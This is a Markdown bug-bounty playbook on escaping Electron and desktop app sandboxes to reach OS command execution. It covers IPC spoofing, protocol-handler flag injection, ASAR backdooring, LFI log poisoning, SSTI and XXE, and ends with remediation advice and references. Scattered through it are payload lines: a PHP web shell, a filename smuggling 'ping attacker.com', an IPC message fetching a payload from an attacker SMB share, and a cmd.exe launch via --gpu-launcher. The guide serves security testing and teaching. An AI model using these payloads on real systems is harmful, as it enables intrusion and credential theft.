

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Phase 4 Playbooks >>](TBD.md) >>*
---

# Electron & Desktop RCE : Master Playbook

> **Goal:** Escaping the application sandbox to execute arbitrary commands on the host Operating System.
> **Triggers:** `webPreferences` with `nodeIntegration: true`, `contextIsolation: false`, or insecure IPC (Inter-Process Communication) handlers.
> **Context:** Imagine you have a TV with a standard remote (the web browser), which only lets you change channels or volume within the TV's own menu (the sandbox). Now, imagine you find a "Universal Remote" (RCE) that has a hidden button. When you press it, you're actually controlling the house's electrical system, the locks on the doors, and the garage (the Host OS). 
> **Hacker Mindset:** "I'm not just a user of this app anymore. I'm the landlord of the machine it's running on."

> **The "Universal Remote" Analogy**: Imagine you have a TV with a standard remote (the web browser), which only lets you change channels or volume within the TV's own menu (the sandbox). Now, imagine you find a "Universal Remote" (RCE) that has a hidden button. When you press it, you aren't just changing the TV's volume—you're actually controlling the house's electrical system, the locks on the doors, and the garage (the Host OS). **Remote Code Execution** is that hidden button; it's the moment you break out of the "display" and gain control over the entire physical "house."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to decide which RCE pathway to prioritize:*



1.  **Does the app have `nodeIntegration: true` and `contextIsolation: false`?**
    *   **Yes** → Use **[[#4.1 NodeIntegration Bypass (Context Isolation False)]]** (Direct Node primitives).
2.  **Can you find custom IPC listeners in the `main.js`?**
    *   **Yes** → Use **[[#4.3 IPC (Inter-Process Communication) Spoofing]]** (Forge backend messages).
3.  **Is input passed directly to an OS shell (e.g., `exec()`)?**
    *   **Yes** → Use **[[#3.7 RCE via Command Injection]]**.
4.  **Does the app register custom URI schemes like `app://`?**
    *   **Yes** → Use **[[#4.4 Protocol Handler Injection]]** (Inject flags via OS).
5.  **Found an `app.asar` archive?**
    *   **Yes** → Use **[[#5.1 ASAR Unpacking & Source Code Review]]**.
6.  **Does the app use binary ".node" modules (Native C++)?**
    *   **Yes** → Use **[[#5.3 Native Module (C/C++) Exploitation]]**.
7.  **Does the app handle serialized objects or server-side templates?**
    *   **Yes** → Use **[[#3.8 RCE via Insecure Deserialization]]** or **[[#3.9 RCE via Server-Side Template Injection (SSTI)]]**.
8.  **Does the app open external links via `shell.openExternal()`?**
    *   **Yes** → Use **[[#7.1 Exploiting `shell.openExternal()` (URI Scheme RCE)]]**.


---

## 1. Why It Happens: The Core Logic

### 1.1 The Desktop & Backend Execution Model
Unlike a typical browser (Chrome/Firefox) which heavily sandboxes JavaScript to protect the user's computer, **Electron** and **Desktop Applications** blur the line between the "Frontend" and the "Backend". Electron bundles a Chromium browser (Frontend) with a Node.js runtime (Backend). 

If a malicious attacker can bypass the Chromium sandbox within an Electron app—or exploit a backend web service that the desktop app relies upon—they can transition from a localized environment directly to the host Operating System.

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Command Injection** | Appending destructive orders. | Semicolon/Pipe in input. | `sleep 10` or `whoami`. | **Critical** |
| **Sandbox Bypass** | Stealing the valet key. | `contextIsolation: false`. | Execution of Node primitives. | **Critical** |
| **IPC Spoofing** | Forging internal messages. | Open IPC listeners in source. | Backend executes fake UI request. | **High/Critical** |
| **Protocol Hijack** | Malicious "Magic Link". | `--gpu-launcher` in URI. | App launch triggers OS command. | **Critical** |
| **ASAR Backdoor** | Swapping the app's brain. | Missing ASAR check/sign. | App launches with backdoor. | **Critical** |
| **SSTI to RCE** | Talking to the server's brain. | `{{7*7}}` results in `49`. | Python/Ruby shell access. | **Critical** |
| **Insecure Deserialization** | Rebuilding a poisoned object. | `ysoserial` generated strings. | Execution during object unpacking. | **Critical** |
| **Native Module** | Memory corruption in C++. | Binary-level buffer overflows. | Heap/Stack overflow to RCE. | **Critical** |

---

## 2. Methodology: The Desktop Hunter's Checkpoint

### 2.1 The Hunter's Pre-Flight Checklist
Before you start throwing payloads, ask yourself these "Desktop State" questions:
*   [ ] **Does the app have `nodeIntegration: true`?** Check the source for `webPreferences`.
*   [ ] **Is `contextIsolation` disabled?** This is the single biggest security failure in Electron.
*   [ ] **Can I access the DevTools?** Press `Ctrl+Shift+I`. If open, you have a direct console.
*   [ ] **How does it handle protocols?** Does `my-app://` trigger external actions?

---

## 3. Remote Code Execution Pathways

### 3.1 RCE via Dependency Confusion
Electron apps and modern desktop software heavily rely on package managers (like NPM for Node.js, PyPI for Python, or RubyGems). Many companies use internal, private repositories to host proprietary packages.

*   **The Attack:** 
    If a company's internal software tracker requires a package named `company-internal-logger-v1`, an attacker can register that exact name on the completely public NPM registry. If the company's package manager is misconfigured, it will ping the public NPM registry first, grab the attacker's malicious package, and install it.
*   **The Execution:**
    Upon installation, a pre-install script built into the malicious package (like `preinstall: "bash -c '...' "`) triggers a reverse shell, immediately granting the attacker terminal access into the developer's computer or the company's build server.

---

### 3.2 RCE via File Upload
Desktop apps often interface with web backends to sync profile avatars, configuration files, or chat attachments.

*   **The Attack:**
    If the server allows users to upload files without properly validating the extension or verifying the file's inner contents, an attacker can upload a web shell (like `shell.php`, `shell.js`, or `shell.jsp`) disguised as an image.
*   **The Execution:**
    When the attacker navigates to the uploaded file's URL in their browser (e.g., `https://target.com/uploads/shell.php?cmd=whoami`), the backend server executes the script instead of ignoring it, granting full OS access.

---

### 3.3 RCE via SQL Injection
SQL Injection doesn't just steal data; under the right administrative conditions, it can completely hijack the host instance.

*   **The Attack:**
    If an application uses SQL Server with the `xp_cmdshell` feature enabled, or PostgreSQL where you can use `COPY TO PROGRAM`, you can pass OS commands directly through the SQL query string. 
*   **The Execution:**
    For MySQL, attackers commonly use the `INTO OUTFILE` command to write a malicious PHP shell directly into the web root directory (`/var/www/html/shell.php`). Once written, the attacker browses to the file to gain RCE.

---

### 3.4 RCE via Local File Inclusion (LFI)
LFI theoretically only allows you to *read* files, but it can quickly be escalated to full code execution via **Log Poisoning**.

*   **The Attack:**
    1. You make a poisoned request to the web server with a malicious `User-Agent` containing PHP code: `<?php system($_GET['cmd']); ?>`. 
    2. The web server logs this toxic User-Agent into its internal log file (e.g., `/var/log/apache2/access.log`).
*   **The Execution:**
    You then use the LFI vulnerability to include and render the log file: `?page=../../../../var/log/apache2/access.log&cmd=id`. The server parses the log file as a PHP script, hitting your injected code and granting RCE.

---

### 3.5 RCE via Server-Side Request Forgery (SSRF)
SSRF allows you to mathematically force the backend server to send HTTP requests to internal IP addresses on its own internal network. 

*   **The Attack:**
    By targeting internal administrative ports or non-HTTP services, SSRF becomes an RCE gateway. If you find an SSRF on an AWS instance, you can blast internal microservices like Redis, Memcached, or Jenkins.
*   **The Execution:**
    By using the `gopher://` or `dict://` protocols within the SSRF, you craft specific internal network packets that instruct the internal Redis database to write an SSH key to the root user's `/.ssh/authorized_keys` file, granting you instant SSH terminal access.

---

### 3.6 RCE via XML External Entity (XXE)
XXE is traditionally used for local file extraction (stealing `/etc/passwd`), but under specific conditions, it can directly execute code.

*   **The Attack:**
    If the target application is running PHP and the `expect://` module is installed and enabled, you can define an XML entity that passes shell commands directly to the expect wrapper.
*   **The Execution:**
    ```xml
    <!DOCTYPE root [ <!ENTITY rce SYSTEM "expect://id" > ]>
    <root>&rce;</root>
    ```
    When the XML parser attempts to resolve the `&rce;` tag, it triggers the OS command and returns the output directly within the XML response.

---

### 3.7 RCE via Command Injection
This is the most direct mathematical form of RCE. Desktop applications often pass user inputs directly to the underlying OS using functions like `child_process.exec()`, `os.system()`, or `popen()`.

*   **The Attack:**
    If an app converts PDFs to images using a terminal command like `convert $user_input.pdf output.jpg`, the attacker controls `$user_input`.
*   **The Execution:**
    An attacker can provide a filename like `test.pdf; ping attacker.com`. The Linux/Windows terminal interprets the semicolon `;` as the end of the first command, and forcefully executes the `ping` command alongside it.

---

### 3.8 RCE via Insecure Deserialization
When an application uses complex objects (like a user's session data or profile configurations), it often "serializes" them into a byte stream or long string to save them to a database or a cookie. 

*   **The Attack:**
    If the application "deserializes" (rebuilds) this data from an untrusted user without cryptographic signing, an attacker can intentionally modify the serialized string. 
*   **The Execution:**
    By packaging "Gadget Chains" (specific exploit sequences theoretically tailored to the application's native libraries, like using the `ysoserial` tool for Java), the application unwittingly unpacks and executes destructive shell commands during the object-rebuilding phase.

---

### 3.9 RCE via Server-Side Template Injection (SSTI)
Templating engines (like Jinja2, Twig, Freemarker, Handlebars) are used heavily to dynamically generate HTML. 

*   **The Attack:**
    If user input is unsafely embedded directly into a template file, the templating engine will evaluate the input as native code rather than plain text. 
*   **The Execution:**
    For example, in Python's Jinja2 environment, injecting `{{ "".__class__.__mro__[1].__subclasses__() }}` allows the attacker to traverse the Python object hierarchy, find the `subprocess.Popen` class, and spawn an OS shell directly from the web application's frontend context.


---

## 4. Advanced Electron Exploitation (Sandbox Bypass)

### 4.1 NodeIntegration Bypass (Context Isolation False)
Even if an Electron app has `nodeIntegration: false`, an attacker can still execute code if `contextIsolation: false`.

*   **The Attack:**
    When Context Isolation is off, the Chromium frontend and the Node.js backend share the exact same `window` and global object prototypes. An attacker can use a basic XSS payload to override built-in JavaScript functions (like `Promise`, `Array`, or event emitters) that the backend relies on.
*   **The Execution:**
    When the backend executes its trusted scripts, it calls the attacker's poisoned prototype function, which then leaks require modules or primitive functions meant only for the backend back into the frontend scope. From there, the attacker uses the leaked primitives to instantiate a shell.

---

### 4.2 Preload Script Vulnerabilities & Prototype Pollution
Preload scripts bridge the gap between the isolated web renderer and the powerful Node environment using `contextBridge`.

*   **The Attack:**
    If the developer incorrectly uses `contextBridge.exposeInMainWorld` to expose generic or poorly validated API functions, attackers can use Prototype Pollution to poison the object structure. Even with Context Isolation ON, a flawed preload script can be tricked into carrying malicious data objects across the bridge.
*   **The Execution:**
    An attacker injects an attribute like `__proto__.shell = "calc.exe"` into an object passed through the exposed API. If the backend deserializes or merges this object unsafely before executing a command, the backend's runtime state is poisoned, leading to RCE.

---

### 4.3 IPC (Inter-Process Communication) Spoofing
Electron uses IPC channels so the web interface (renderer) can talk to the Node backend (main).

*   **The Attack:**
    If an attacker achieves XSS, they can inspect the application's source code (often found in `.asar` files) to find `ipcMain.on('trigger-update', ...)` listeners on the backend. Many developers trust that only their own UI buttons sends these IPC messages.
*   **The Execution:**
    The attacker uses their XSS payload to forge an `ipcRenderer.send('trigger-update', { url: 'smb://attacker/payload.exe' })` message. The backend process, running with high privileges, blindly trusts the message and executes the attacker's payload.

---

### 4.4 Protocol Handler Injection
Desktop applications often register custom URI schemes (like `zoommtg://` or `slack://`) to allow web browsers to launch the app directly.

*   **The Attack:**
    When a user clicks a custom protocol link in their browser, the OS passes the link directly to the app's startup command. If the Electron main process uses `child_process.exec()` or fails to properly sanitize the string arguments passed from the OS handler, command injection occurs.
*   **The Execution:**
    An attacker hosts a malicious website with an iframe or redirect to `myapp://?param=" --no-sandbox --gpu-launcher="cmd.exe /c calc.exe`. When the victim clicks the link, the OS launches the Electron app with the attacker's injected flags, immediately executing OS commands before the app even finishes loading.

---

---

## 5. Deep Dives: ASAR & Native Modules

### 5.1 ASAR Unpacking & Source Code Review
The `.asar` (Atom Shell Archive) format is a simple, tar-like archive used by Electron to package application source code. It provides no encryption or compression.

*   **The Attack:** 
    Attackers can extract the contents of an `app.asar` file to gain full access to the application's JavaScript source code, configuration files, and hardcoded secrets.
*   **The Execution:**
    Using the command `npx asar extract app.asar source_code`, an attacker can reverse engineer the app to find internal API endpoints, hardcoded credentials, or insecure IPC listeners.

---

### 5.2 ASAR Integrity & Backdooring
If an Electron application does not implement code signing or check the integrity of its `.asar` archives, the file can be replaced by an attacker.

*   **The Attack:**
    An attacker with write access to the application directory (or via an installer exploit) can repack a modified `app.asar` file containing a persistent backdoor.
*   **The Execution:**
    The attacker extracts the ASAR, modifies a core file like `main.js` to include a reverse shell script, and repacks it using `npx asar pack source_code app.asar`. On the next launch, the application executes the attacker's code with the privileges of the user.

---

### 5.3 Native Module (C/C++) Exploitation
Modern Electron apps often use Node Native Addons (`.node` files), which are written in C or C++ to perform high-performance tasks or interact directly with the OS.

*   **The Attack:**
    Because native modules run outside the JavaScript engine's safety sandbox, memory corruption vulnerabilities (like buffer overflows, use-after-free, or integer overflows) in these C++ bindings represent a critical bypass.
*   **The Execution:**
    An attacker provides specially crafted input to a JavaScript function that passes data to the native C++ module. This input triggers a memory overflow in the binary layer, allowing the attacker to overwrite the program's execution flow and achieve direct system-level RCE, bypassing all Electron-specific security flags (like Context Isolation).

---


---

## 6. Tooling & Automation

### 6.1 Static Analysis with Electronegativity
Searching manually through thousands of lines of code is inefficient. Electronegativity is an open-source tool designed to automate this process.

*   **The Attack:** 
    Hackers use static analysis to find configuration mistakes or insecure API usage patterns in a matter of seconds.
*   **The Execution:**
    1. Extract the app's ASAR using `npx asar extract app.asar source_code`.
    2. Run the scanner: `electronegativity -input source_code`.
    3. The tool generates a report identifying high-risk flags like `nodeIntegration: true`, `contextIsolation: false`, or `permissionRequestHandler` missing.

---

### 6.2 Dynamic Analysis & Unlocking DevTools
Many desktop apps disable access to the Chrome Developer Tools (Ctrl+Shift+I) to hide their inner workings.

*   **The Attack:**
    If you can force the DevTools open, you gain a live console to interact with the application's JavaScript environment, local storage, and internal objects.
*   **The Execution:**
    Most Electron apps can be launched from the terminal with the `--remote-debugging-port=9222` flag. You can then navigate to `http://localhost:9222` in your Chrome browser to remotely debug the desktop app's frontend, bypassing the UI-level restriction.

---

### 6.3 Process Hooking with Frida
Frida is a dynamic instrumentation toolkit that allows you to inject your own JavaScript into a running native process.

*   **The Attack:**
    Attackers use Frida to monitor Inter-Process Communication (IPC) messages in real-time or bypass SSL pinning to see encrypted traffic.
*   **The Execution:**
    By using an `electron-inject` script or a raw Frida script, you can "hook" the `ipcRenderer.send` function. Every time the app tries to talk to the backend, your script intercepts the message, displays it on your screen, and even allows you to modify the data before it reaches the main process.

---

## 7. The Horizon Tier (Architectural Exploit Chains)

### 7.1 Exploiting `shell.openExternal()` (URI Scheme RCE)
The `shell.openExternal()` API is used to open URLs in the user's default browser. If improperly restricted, it can be abused to execute local files.

*   **The Attack:**
    An attacker who achieves even limited input control can pass non-HTTP URI schemes to this API.
*   **The Execution:**
    Instead of `https://google.com`, the attacker passes `file:///C:/Windows/System32/calc.exe`. On Windows, this will cause the operating system to launch the calculator. More dangerously, passing `smb://attacker.com/anything` can force the victim's OS to attempt an NTLM handshake, leaking their password hash to the attacker.

---

### 7.2 Zero-Click Auto-Updater Hijacking
Desktop apps use auto-updaters (like Squirrel or NSIS) to stay current. This process is a massive attack surface.

*   **The Attack:**
    If the update check happens over an unencrypted connection (HTTP) or fails to verify the digital signature of the downloaded package, an attacker can serve a "poisoned" update.
*   **The Execution:**
    Using an ARP spoof or a DNS hijack on a public Wi-Fi network, the attacker intercepts the update check and feeds the app a malicious `.exe` file. The app, thinking it's a legitimate patch, downloads and executes the file with elevated privileges.

---

### 7.3 Chromium 1-Day & V8 Engine Exploitation
Electron developers often fail to update their framework version, leaving the bundled Chromium engine vulnerable to known exploits.

*   **The Attack:**
    JavaScript is executed by the V8 engine. Memory corruption bugs in V8 (often called 1-Days) are published regularly. Because Electron stays behind Chrome's release cycle, these public exploits work perfectly on desktop apps.
*   **The Execution:**
    An attacker serves a malicious webpage inside the Electron renderer. The V8 exploit triggers a "Type Confusion" flaw in the browser's memory, allowing the attacker to break out of the tab's sandbox and gain a system shell, even if all other Electron security flags are enabled.

---

### 7.4 Desktop Local Privilege Escalation (LPE)
Gaining a shell as a standard user is often just the beginning. Many desktop apps install high-privilege services to handle updates or background tasks.

*   **The Attack:**
    These services often run as `SYSTEM` (Windows) or `root` (Linux). If they have weak permissions on their installation folders, or if they have "Unquoted Service Paths", a standard user can hijack them.
*   **The Execution:**
    An attacker finds an unquoted path like `C:\\Program Files\\My App\\service.exe`. They place a malicious file at `C:\\Program.exe`. When the computer restarts, Windows attempts to launch `Program.exe` instead of the real service, granting the attacker full `NT AUTHORITY\\SYSTEM` privileges on the machine.

---

---

## 8. The Omniscient Tier (Architecture & Bypasses)

### 8.1 Electron CSP Bypasses
Content Security Policy (CSP) is the first line of defense against XSS. However, in Electron, Node.js integration provides "God Mode" that can often bypass these restrictions.

*   **The Attack:** 
    If a renderer has even partial Node.js integration or if an attacker can leverage a vulnerable `preload` script, CSP becomes irrelevant.
*   **The Execution:**
    If you have XSS but CSP blocks `eval()` or inline scripts, check if you can use `require('child_process').exec()`. Node.js primitives operate independently of the Chromium CSP engine. In some versions, using `window.open()` to a `data:` URI or a `file:///` URI can escape the CSP context of the original window.

---

### 8.2 The webPreferences Danger Matrix
The `webPreferences` object in the Main process is the source of truth for the app's attack surface.

| Flag | Default (Safe) | Dangerous Value | Implication |
| :--- | :--- | :--- | :--- |
| `webSecurity` | `true` | `false` | Disables Same-Origin Policy (SOP). Allows XSS to read any local file or query any domain. |
| `allowRunningInsecureContent` | `false` | `true` | Allows an HTTPS site to load scripts/CSS from HTTP (Active MITM target). |
| `enableRemoteModule` | `false` | `true` | (Deprecated) Allows the renderer to talk directly to Main process modules. Trivial RCE. |
| `nodeIntegrationInSubFrames` | `false` | `true` | Extends Node privileges to iframes, greatly expanding the XSS attack surface. |
| `nativeWindowOpen` | `true` | `false` | Forces `window.open` to use a separate process; disabling it can lead to prototype pollution leaks. |

---

## 9. Real-World Bounty Blueprints (Case Studies)

### 9.1 The Discord RCE (Prototype Pollution)
Discord used `contextBridge` to expose a safe API, but a flaw in how deep-merging was handled allowed for Prototype Pollution.

*   **The Mechanism:**
    1. Attacker found XSS in a third-party library used by the app.
    2. They used the XSS to poison `Object.prototype` via a vulnerable `exposeInMainWorld` function.
    3. When the Main process called a trusted internal function, it used the poisoned prototype to execute a malicious shell command.
*   **Bounty:** $5,000+

### 9.2 The Slack RCE (Protocol Hijacking)
Slack registered a custom protocol (`slack://`) that didn't properly sanitize arguments.

*   **The Mechanism:**
    1. Attacker crafted a link: `slack://secret-action?--gpu-launcher="cmd.exe /c ..."`
    2. Clicking the link on a website launched the Slack app with these "Chromium Flags."
    3. The `--gpu-launcher` flag is interpreted by Chromium as a command to execute for GPU processes, leading to instant RCE.
*   **Bounty:** $10,000+

---

## 10. The Defender's Lens (Remediation Guide)

To secure an Electron application, follow this "Zero Trust" hierarchy:

1.  **Enforce Isolation**: 
    *   `contextIsolation: true` (MANDATORY).
    *   `nodeIntegration: false` (MANDATORY for renderers).
    *   `sandbox: true` (Enable the OS-level Chromium sandbox).
2.  **Strict IPC Validation**: 
    Never trust the `sender` of an IPC message. Validate every argument on the `Main` process using a strict schema (e.g., Joi or Zod) before passing it to Node.js functions.
3.  **Sanitize shell.openExternal**: 
    Explicitly check if the URL starts with `https://` or `mailto:`. Never allow `file://`, `smb://`, or shell-related URI schemes.
4.  **Content Security Policy**:
    Implement a strict CSP that disallows `unsafe-inline` and `unsafe-eval`.
    ```http
    Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
    ```

---
## 11. Resources & References

This section contains all preserved data and original resource links related to the attack vectors described above.

### 11.1 RCE via Dependency Confusion
*   [https://systemweakness.com/rce-via-dependency-confusion-e0ed2a127013](https://systemweakness.com/rce-via-dependency-confusion-e0ed2a127013)
*   [https://chevonphillip.medium.com/rce-due-to-dependency-confusion-5000-bounty-fd1b294d645f](https://chevonphillip.medium.com/rce-due-to-dependency-confusion-5000-bounty-fd1b294d645f)
*   [https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)
*   [https://hackerone.com/reports/1104693](https://hackerone.com/reports/1104693)

### 11.2 RCE via File Upload
*   [https://book.hacktricks.xyz/pentesting-web/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
*   [https://sidblog.medium.com/file-upload-to-rce-7c04b3b252de](https://sidblog.medium.com/file-upload-to-rce-7c04b3b252de)
*   [https://hackerone.com/reports/678727](https://hackerone.com/reports/678727)

### 11.3 RCE via SQL Injection
*   [https://www.oxeye.io/resources/rce-through-sql-injection-vulnerability-in-hashicorps-vault](https://www.oxeye.io/resources/rce-through-sql-injection-vulnerability-in-hashicorps-vault)
*   [https://systemweakness.com/sql-injection-to-remote-command-execution-rce-dd9a75292d1d](https://systemweakness.com/sql-injection-to-remote-command-execution-rce-dd9a75292d1d)

### 11.4 RCE via Local File Inclusion (LFI)
*   [https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet)
*   [https://himanshugurjar-10413.medium.com/rce-via-lfi-log-poisoning-3a33632caf4a](https://himanshugurjar-10413.medium.com/rce-via-lfi-log-poisoning-3a33632caf4a)
*   [https://aditya-chauhan17.medium.com/local-file-inclusion-lfi-to-rce-7594e15870e1](https://aditya-chauhan17.medium.com/local-file-inclusion-lfi-to-rce-7594e15870e1)

### 11.5 RCE via Server-Side Request Forgery (SSRF)
*   [https://www.youtube.com/watch?v=Vj6oY6IaJdU](https://www.youtube.com/watch?v=Vj6oY6IaJdU)
*   [https://infosecwriteups.com/exploiting-server-side-request-forgery-ssrf-vulnerability-faeb7ddf5d0e](https://infosecwriteups.com/exploiting-server-side-request-forgery-ssrf-vulnerability-faeb7ddf5d0e)
*   [https://aditya-chauhan17.medium.com/server-side-request-forgery-ssrf-to-rce-c0cb5fc88a94](https://aditya-chauhan17.medium.com/server-side-request-forgery-ssrf-to-rce-c0cb5fc88a94)

### 11.6 RCE via XML External Entity (XXE)
*   [https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7)
*   [https://www.youtube.com/watch?v=Gz4iPauycKs](https://www.youtube.com/watch?v=Gz4iPauycKs)
*   [https://hackerone.com/reports/227880](https://hackerone.com/reports/227880)

### 11.7 RCE via Command Injection
*   [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection#command-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection#command-execution)

### 11.8 RCE via Insecure Deserialization
*   [https://secure-cookie.io/attacks/insecuredeserialization/](https://secure-cookie.io/attacks/insecuredeserialization/)
*   [https://www.bugbountyhunter.com/hackevents/report?id=867](https://www.bugbountyhunter.com/hackevents/report?id=867)
*   [https://www.bugbountyhunter.com/hackevents/report?id=776](https://www.bugbountyhunter.com/hackevents/report?id=776)
*   [https://portswigger.net/web-security/deserialization/exploiting](https://portswigger.net/web-security/deserialization/exploiting)

### 11.9 RCE via Server-Side Template Injection (SSTI)
*   [https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e](https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e)
*   [https://github.com/epinna/tplmap](https://github.com/epinna/tplmap)
*   [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)
---

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*